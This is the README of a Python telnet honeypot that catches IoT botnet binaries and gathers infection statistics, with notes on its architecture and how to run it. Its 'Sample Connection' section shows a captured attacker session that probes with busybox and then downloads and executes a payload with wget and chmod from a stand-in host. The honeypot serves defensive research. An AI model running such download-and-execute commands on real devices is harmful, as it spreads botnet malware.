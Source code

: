 # Telnet IoT honeypot

Live Demo: http://phype.pythonanywhere.com/

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

Other than https://github.com/stamparm/hontel or https://github.com/micheloosterhof/cowrie (examples),
which provides full (via chroot) or simulated behaviour of a linux
system this honeypots goal is just to collect statistics of (IoT) botnets.
This means that the honeypot must be made to work with every form of automated telnet session,
which may try to infect the honeypot with malware.
Luckily, these malwares infection processes are quite simple,
just using wget do download something and running it.

## Architecture

The application has a client/server architekture,
with a client (the actual honeypot) accepting telnet connections
and a server aggregating connection data and sample analysis.

However, for local deployments, the application can also be run
in local mode to eliminate the need to run a client and server locally.

# Running

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Client/Local Mode

	python honeypot.py

## Server

	python backend.py

## Opening the frontend

After the server is started, open `html/index.html` in your favorite browser.
For this to work, the url in `html/apiurl.js` should point to your running backend,
which it should do automatically for local deployments.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)
